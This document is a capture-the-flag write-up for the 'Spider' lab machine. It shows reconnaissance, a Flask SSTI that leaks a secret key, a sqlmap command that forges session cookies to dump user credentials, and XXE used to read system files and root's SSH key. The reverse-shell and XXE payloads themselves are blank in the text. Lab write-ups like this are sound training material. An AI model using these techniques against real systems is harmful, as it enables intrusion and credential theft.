




# Spider

## Initial Foothold

First as always, `nmap`

```
# Nmap 7.92 scan initiated Mon Sep 20 12:46:36 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.10.243
Nmap scan report for 10.10.10.243
Host is up, received syn-ack (0.053s latency).
Scanned at 2021-09-20 12:46:44 +07 for 8s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZKP7Ebfve8CuM7AUHwkj38Y/0Pw04ub27AePqlhmH8FpgdDCkj3WINW8Yer3nmxZdh7zNadl6FZXYfmRRl/K3BC33Or44id3e8Uo87hMKP9F5Nv85W7LfaoJhsHdwKL+u3h494N1Cv0n2ujJ2/KCYLQRZwvn1XfS4crkTVmNyrw3xtCYq0aCHNYxp51/WhNRULDf0MUMnA78M/1K9+erVCg4tOVMBisu2SD7SHN//E2IwSfHJTHfyDj+/zi6BbKzW+4rIxxJr2GRNDaPlYXsm3/up5M+t7lMIYwHOTIRLu3trpx4lfWfIKea9uTNiahCARy3agSmx7f1WLp5NuLeH
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLxMnAdIHruSk1hB7McjxnudQ7f6I5sKPh1NpJd3Tmb9tedtLNqqPXtzroCP8caSRkfXjtJ/hp+CiobuuYW8+fU=
|   256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJq0AuboJ6i4Hv3fUwQku//NLipnLhz1PfrV5KZ89eT
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 20 12:46:52 2021 -- 1 IP address (1 host up) scanned in 16.10 seconds
```

Looking at the web server on port 80, we're redirected to `spider.htb` so we add the domain name to `/etc/hosts` and fuzz subdomains.

```sh
$ ffuf -u "http://spider.htb/" -H "Host: FUZZ.spider.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 194
```

That, however, gives us nothing. Looking at the website, the source code includes a comment.

> We have enabled rate limiting to keep pesky hax0rs from attacking our service.

Looks like we won't be brute-forcing things. Looking around the page, we find that without being logged in, we're only able to visit `/login`, `/register`, and `/product-details` pages. Looking at the `product-details` pages, we see that all the products are posted by the user "chiv", which we note as a potential target user, possibly and admin.


Looking at the `/login` page, the username uses UUIDs which are generally randomly generated and can't be brute-forced. Since we can register an account, we'll do just that and should be given a UUID to log in with.

Logged in, we see that we have the cookie "session" which is a JWT token with our cart info and UUID. We might be able to log in as another user if we can find the secret so we make note of that.

Looking at the "User information" page at `/user`, we have our username and UUID. We can't change our username or UUID but we do have the username being reflected here. Among other things, I tested for Server-side Template Injection (SSTI). Registering a user named `{{7*7}}` gives us `49` in the username, while `{{"7"*7}}` gives us `7777777`. With some more testing, we can confirm that the backend is [Flask](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti). Unfortunately, we can't use long SSTI payloads since there's a limit of 10 characters on the username. I registered a user named `{{config}}` which give the following data in the injected username.

```
<Config {
'ENV': 'production',
'DEBUG': False,
'TESTING': False,
'PROPAGATE_EXCEPTIONS': None,
'PRESERVE_CONTEXT_ON_EXCEPTION': None,
'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942',
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
'USE_X_SENDFILE': False,
'SERVER_NAME': None,
'APPLICATION_ROOT': '/',
'SESSION_COOKIE_NAME': 'session',
'SESSION_COOKIE_DOMAIN': False,
'SESSION_COOKIE_PATH': None,
'SESSION_COOKIE_HTTPONLY': True,
'SESSION_COOKIE_SECURE': False,
'SESSION_COOKIE_SAMESITE': None,
'SESSION_REFRESH_EACH_REQUEST': True,
'MAX_CONTENT_LENGTH': None,
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
'TRAP_BAD_REQUEST_ERRORS': None,
'TRAP_HTTP_EXCEPTIONS': False,
'EXPLAIN_TEMPLATE_LOADING': False,
'PREFERRED_URL_SCHEME': 'http',
'JSON_AS_ASCII': True,
'JSON_SORT_KEYS': True,
'JSONIFY_PRETTYPRINT_REGULAR': False,
'JSONIFY_MIMETYPE': 'application/json',
'TEMPLATES_AUTO_RELOAD': None,
'MAX_COOKIE_SIZE': 4093,
'RATELIMIT_ENABLED': True,
'RATELIMIT_DEFAULTS_PER_METHOD': False,
'RATELIMIT_SWALLOW_ERRORS': False,
'RATELIMIT_HEADERS_ENABLED': False,
'RATELIMIT_STORAGE_URL': 'memory://',
'RATELIMIT_STRATEGY': 'fixed-window',
'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset',
'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining',
'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit',
'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After',
'UPLOAD_FOLDER': 'static/uploads'
}>
```

We have a secret key. We can use this to sign the session cookies[(1)](https://flask.palletsprojects.com/en/1.1.x/config/#SECRET_KEY)[(2)](https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key). According to hacktricks, we can try [sqlmap on Flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask#sqli-in-flask-session-cookie-with-sqlmap) with the secret key. We just need to install `flask_unsign` with `pip install flask-unsign` and run the following.

```sh
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump --batch --delay 1
```

Among the dumped results is chiv's credentials

```sh
cat ~/.local/share/sqlmap/output/spider.htb/dump/shop/users.csv
id,uuid,name,password
1,129f60ea-30cf-4065-afb9-6be45ad38b73,chiv,ch1VW4sHERE7331
[snip]
```

With that, we should be able to log in as chiv. Viewing messages, we have the following message.

> Fix the /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal portal!

We have a new page to play with. Trying SSTI in the "Contact number or email:" field, we get the following error.

```
Why would you need '{{' or '}}' in a contact value?
```

Looks like a guard against SSTI. `{{ }}` can't be used. ``, however, isn't blacklisted and submitting `` and `` as  contact give us HTTP 500 errors so we know that input is processed somehow. Looking for Flask/Jinja SSTI payloads for code execution using `` instead of `{{ }}`, I found some on [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-remote-code-execution). I used the following payload.

```
 a 
```

With a listener set, I submitted a support ticket with that as the contact and got a shell as "chiv" on the machine.

## Privilege Escalation

We can grab chiv's `id_rsa` and SSH in as chiv. Looking at listening ports ...

```sh
chiv@spider:~$ ss -tlnp
State         Recv-Q          Send-Q                    Local Address:Port                   Peer Address:Port
LISTEN        0               80                            127.0.0.1:3306                        0.0.0.0:*
LISTEN        0               128                             0.0.0.0:80                          0.0.0.0:*
LISTEN        0               100                           127.0.0.1:8080                        0.0.0.0:*
LISTEN        0               128                       127.0.0.53%lo:53                          0.0.0.0:*
LISTEN        0               128                             0.0.0.0:22                          0.0.0.0:*
LISTEN        0               128                                [::]:22                             [::]:*
```

We see port 8080 which we didn't have in our `nmap` scan. We can use SSH to port forward this.

```sh
ssh -i id_rsa chiv@spider.htb -L 8080:localhost:8080 -N
```

Visiting the page, we get a login page. Looking at the source code, we have a hidden element with a version.

```html
<input type="hidden" id="version" name="version" value="1.0.0">
```

This version string is part of the input form and gets with the request when we log in. Unsure of what software that version is of, we make note of it and move on. Looking around the login page, the only thing we can do is login with a random name. After logging in, the only link that works is the logout button. Looking at the cookies,  we have a "session" cookie. The other web application was Flask so this one might also be Flask. With that assumption, I looked back at [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign) and found that we can decode cookies with `flask-unsign`.

```sh
$ flask-unsign --decode --cookie '.eJw1zE1vgjAAxvGvsvS8A3XGZBybtnRoIS19kd5sugSUAkOyMY3ffRqz45PfP88VdEvsQHoFLx6kQJOCBrIoccqNtHNvIrSflv965tqDpmuVjShoiMVecoPlTpNmG-LHRVczvntf6QKVdGTyiNzDH9slHRY25CIha0eb0mfFXNimNVBP1si3EGWt4nL0ygx1F8w2KcZn__xzEDHPxpqf3HT3czDoS6iG87hsLM6zwyrfe2aEW73_97i0s7M0H3QWvkvyc6l613JIJnB7BePQ9vMZpMntDzT_U6g.YUnEcA.gN-vX2W5URfNswb3n68-riXydwI'
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}
```

We have an interesting string: `lxml`. Base64-decoding it gives us some XML.

```sh
$ echo 'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+' | base64 -d
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>a</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

We have API version 1.0.0, the same version we saw earlier in the hidden HTML element. We can hazard a guess that this version string is reflected from the version parameter that gets sent when we log in. With that in mind, we can craft our own XML and exploit XXE (eXternal XML Entity) by intercepting the login and editing the POST parameters. Assuming everything in the parameter `version` is reflected, I tried exfiltrating `/etc/passwd`.




It works. Let's try changing the payload to exfiltrate root's SSH key.




With that, we should be able to SSH in as root.
